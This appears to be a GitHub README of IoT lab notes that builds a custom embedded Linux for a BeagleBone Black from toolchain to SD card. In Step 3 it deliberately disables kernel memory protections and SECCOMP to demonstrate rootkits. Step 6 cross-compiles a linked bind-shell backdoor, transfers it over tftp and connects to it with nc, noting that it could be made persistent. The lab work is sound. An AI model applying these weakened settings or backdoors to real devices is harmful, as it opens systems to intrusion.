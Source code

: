 ![Plan of action Slide](https://github.com/kymb0/IoT/raw/main/note_dir/images/steps.png)  

Before running through steps: run [packages.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/packages.sh) > set paths and alias for build (example in [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh))  

<h2>Step 1 - Build our toolchain (what is a [toolchain?](https://github.com/kymb0/IoT/blob/main/note_dir/Toolchain.md))</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf crosstool-ng-1.23.0.tar.xz
cd crosstool-ng-1.23.0
./configure --prefix=$BASE_INSTALL_DIR/Step-1/customtoolchain
make
make install
cd ..
cp config_file .config
ct-ng build
```  

To do this we must configure crosstool-ng, and then compile it.  
We configure with `ct-ng menuconfig` (An example config is [here](https://github.com/kymb0/IoT/blob/main/note_dir/ct-ng-config))  
most options in config are self explainatory, the only one that was not (for me) was C library. By defukat this was set to gLibc, we want uClibc - this is because uClibc is more of a "smaller and barebones library"

The actual commands to do the above are as follows, as we can see all we are doing is unpacking the offline install directory as well as changing the base install directory from `/` to `/Step-1/customtoolchain`, build crosstool-ng with `make`, install with `make install`, and then build our custome toolchain using the installed and configured crosstool-ng.  
Once built, we can see our binaries in the specified /bin/ directory - this important for later on.

</details>  

<h2>Step 2 - Configure and compile u-boot</h2>
<details>
  <summary></summary>  

Commands for this step:  
```
tar xf u-boot-2018.01.tar.bz2`  
cd u-boot-2018.01
cp ../u-boot-2018.01 .config
arm-make
```
Explaination of above:  
  
So first, we decompress u-boot.tar, and move into it, as this contains the files we need to configure and compile.  
Then we copy the config file across - Why do we need a config file?  
As we are compiling u-boot for a specific device (beagleboneblack), we will need to feed u-boot many device specific details, as u-boot will be responsible for initializing many devices.  
To locate which config to use we look inside `configs/` - which contains configs files for different processors, boards, etc. These configs tell u-boot which support needs to be compiled in aswell as env settings.  
How do we create the config file?  
For the BBB, we can find our particular configs with `ls config/am335x_*`  
this will list all relevant files - luckily for us the SoC/board manufacturer will stipulate which configs are to be used, we can gleam this from their website. In this case Texas Instruments site tells us to use `am335x_evm_defconfig` in order to boot beagleboneblack.  

It is important to note that u-boot will also look will look at the corresponding .dts file with the same naming convention as the config file specified by manufacturer, so, `am335x_evm.dts`  
This file works off a template for the entire am335 family, and inturn THAT template works off a skeleton template.  
(the dts contains large amounts of info regarding different devices, power profiles, memory locations, etc)

Now, compilation process - note `arm make` is an alias for `'ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make'` as set by the [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh) file. Essentially it sets the architecture to arm and sets the crosscompilation toolchain to the binary installed by our custom toolchain in step 1.  
`arm-make distclean` - clean out settings  
`arm-make am335x_evm_defconfig` - using the alias, this will create a config file for us to use (we can inspect and modify via `arm-make menuconfig`)   What would we want to modify? possibly the CLI, shellprompt, boot-delay, etc. We can also include support for additional commands, filesystem support, etc.

finally after creating our config file, we run `arm-make`, after 5 or so minutes we will see our `MLO` file, aswell as u-boot.img, etc.  
</details>  

<h2>Step 3 - Compiling Kernel and Device Tree Binary</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf linux-4.15.7.tar.xz
cd linux-4.15.7
cp ../linux-4.15.7-config .config
ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make -j $(nproc) zImage dtbs modules OR arm-make -j $(nproc) zImage dtbs modules
```
Explaination of above:  
extract the linux kernel (may take some time: one of, if not THE largest repo in the world)  
move into the directory (root of kernel sources)  
we need a config to make sure we compile a kernel capable of running on the beagleboneblack  

Our base defconfig file will be `arch/arm/configs/multi_v7_defconfig` as this contains support for many, many SoC's (obviously including )  
arm-make multi_v7_defconfig to make our base config  
now we customise with `arm-make menuconfig`  
something we may like to change is the kernel .config support option (a M indicates the complete `.config` file will be compiled as an external MODULE, whereas a `*` means the `.config` means it will be built in to the kernel, we want the support built in, so we select `*`)

We would also like KPROBES enabled, as this will allow us to figure many things out in the kernel at runtime - necessary for rootkits and such

[*Note*] As this kernel will be for IoT/embedded devices, as such we will be INTENTIONALLY select options to make the kernel weaker for the purpose of demonstrating rootkits. (in saying this, many IoT devices, even modern ones actualy SHIP with these settings off)  

First we UNSELECT `make kernel text and rodata read-only`, this allows us to play with the syscall table.  
We also UNSELECT `Set loadable kernel module data as NX and text as RO` 

Last we turn `SECCOMP` off in order to enable the full use of certain syscalls, in addition to turning ON `NETFILTER` which is the framework which is used to run iptables, create custom firewalls, packet routing etc. (generally on by default in anycase)  

(We can reduce size of zImage file after compilation by compiling this kernel for ONLY the am335x SoC. wWe do this at menuconfig stage by selecting in systemtypes: TI OMAP/AM family and only select am335x)

Now with these settings done, we compile the kernel (again with our alias):  
`arm-make -j $(nproc) zImage modules dtbs` nproc is number of cpus, we want to also compile in the zImage, modules we selected, aswell as device tree binary.

After this is completed, we can view the zImage files with `ls arch/arm/boot -lh`, `ls arch/arm/boot/dts/am335x-bone*` and so forth.  
</details> 

<h2>Step 4 - Create Root Filesystem</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf buildroot-2017.11.2.tar.gz
cd buildroot-2017.11.2
cp ../buildroot-2017.11.2-config .config
mkdir dl 
cp ../dl/* dl/
make clean
make
```
We will start by unzipping buildroot and moving into it.
Just as there were beaglebone specific config files in the kernel, we have the same situation with buildroot. We generate our config with
`arm-make configs/beaglebone_defconfig`.
Again, `arm-make menuconfig` to modify some settings: Very importantly we do not want buildroot to download and use it's own toolchain - we must change Toolchain type from the default to `external toolchain` and Toolchain from `Linaro` to `Custom toolchain`.
Toolchain prefix must be `arm-unknown-linux-uclibcgnueabihf` - this will tell buildroot how to search for our toolchain binaries. Make sure our gcc version lines up with what he have, in addition to linux kernel version we compiled.   Then we turn on wchar, local, rpc support.  
Lastly we go up one level in settings, and make sure we uncheck Kernel and bootloader as we have built our own. Now in filesystem we select tar filesystem and compression method `xz`.  
Buildroot is now configured to build out the filesystem for the beaglobone black.  
As the packages required are already downloaded, we copy them into the buildroot dl folder.  
Finally we `make` and wait a while, there may be some errors at the end however these can be ignored  
We can see our rootfs tar file in the `output/images/` dir of buildroot as well as a `uEnv.txt` file we could use if we wanted.  
</details>  

<h2>Step 5 - Preparing SD card and booting!</h2>
<details>
  <summary></summary>  

Step 5 - Bringing it all together

Now we have our: 
BOOT partition: `MLO`, `u-boot.img`, and `uEnv.txt` (created Step 2)  
KERNEL partition: `zImage` (linux kernel) and `XX.dtb` (Device Tree) (Created Step 3)  
ROOTFS Partition: `busybox`, `Sytem Utilities`, `Kernel Modules`, and `Custom Programs` (created Step 4)  

  <details>
  <summary>SD Partitioning</summary>  
    
  ![sdPartitioning](https://github.com/kymb0/IoT/raw/main/note_dir/images/sd_part.png)  
    
  </details>
  
We can achieve our partitioning with a number of tools, an wasy way is via `gparted`, typically we want `fat32 100mb` for BOOT, `ext4 1000mb`, kernel , and the rest for rootfs.

Now if we open the pre-configured eEnvtxt file, and in bootargs we CHANGE the rootfs from partition2 to partition3.

Next copy the files we need from each step with the below script/commands:
```
2/u-boot-2018.01/MLO MLO/
cp ../Step-2/u-boot-2018.01/u-boot.img u-boot/
cp ../Step-3/linux-4.15.7/arch/arm/boot/zImage kernel/
cp ../Step-3/linux-4.15.7/arch/arm/boot/dts/am335x-boneblack.dtb dtb/
cp ../Step-4/buildroot-2017.11.2/output/images/rootfs.tar.xz filesystem/ 
cp MLO/MLO /media/iot/BOOT
cp u-boot/u-boot.img /media/iot/BOOT
cp uEnv.txt /media/iot/BOOT
sudo cp kernel/zImage /media/iot/kernel
sudo cp dtb/am335x-boneblack.dtb /media/iot/BOOT
sudo tar -C /media/dev/Linux -xvJf /home/dev/testing_dir/embedded-linux/Step-5/filesystem/rootfs.tar.xz
```
Now... plug that bad boy in and power it up! *If you are connected via UART cable you will be able to monitor the boot process.
</details>

<h2>Step 6 - Basic backdoor example</h2>
<details>
  <summary></summary>  

In this exercise we assume 2 things:  
First, our beaglebone is connected via ethernet to a bridged port to our laptop, and we are monitoring our beaglebone via UART cable.  

For this exersize we can use any of [bindshell](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/bindshell.c), [hello](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello_world.c), or [hello in ARM assembly](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello.s) to demonstrate code execution. The below section will assume bindshell.c because shells r fun. (this particular program is your standard c program however you could also utilise a c-wrapper for assembly, aka spin up msfvenom and drop it in)

We can use our cross compilation tools directly `arm-unknown-linux-uclibcgnueabihf-gcc bindshell.c -o bindshell`  
running `file` against our output binary will confirm the cross-compilation.  
The next step is to `sudo cp /var/lib/tftpboot/` and then collect from our VM `tftp -g -r bindshell 192.x.x.x`, make executable `chmod +X bindshell`  
Now we run and viola, we can `nc` into a session. This is obviously a very basic example, however these notes set the foundation for some of the cooler stuff down the road. **Note we could easily set this binary to run under certain condition (boot, etc) and also modify the code to service multiple clients and also be persistent with it's listener**  
</details>
